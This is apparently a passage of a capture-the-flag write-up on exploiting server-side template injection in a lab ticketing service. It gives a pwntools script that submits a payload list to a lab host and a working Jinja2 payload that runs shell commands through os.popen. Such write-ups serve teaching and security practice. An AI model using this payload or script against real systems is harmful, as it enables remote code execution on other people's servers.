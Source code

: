 ```
        <html>
            <head>
            </head>

            <body>
                <h4>idk</h4>
                <br>
                <b>Status</b>: open
                <br>
                <b>ID</b>: 3718
                <br>
                <h4> Description: </h4>
                <br>
                49
            </body>
             <footer>
              <p><strong>Sorry for the bright page, we are working on some beautiful CSS</strong></p>
             </footer> 
        </html>

```
I tried several language-specific payloads to identify the template engine and came to the conclusion that the engine is jinja2.

I downloaded a payload list and used this Python script to create tickets with the payloads:

```
from pwn import *

host, port = '192.168.124.102', 31337

s = remote(host, port)

s.recvuntil('username> ')
s.sendline('guest')

s.recvuntil('password> ')
s.sendline('guest')

with open('payloads.txt') as f:
	payloads = f.readlines()

for i, payload in enumerate(payloads):

	s.recvuntil('> ')
	s.sendline('open')

	s.recvuntil('Title: ')
	s.sendline('test{}'.format(i))

	s.recvuntil('Description: ')
	s.sendline('{}'.format(payload))

s.close()	
```
several payloads worked but this seemed the most convenient to use: `{{config.__class__.__init__.__globals__['os'].popen('ls').read()}}`
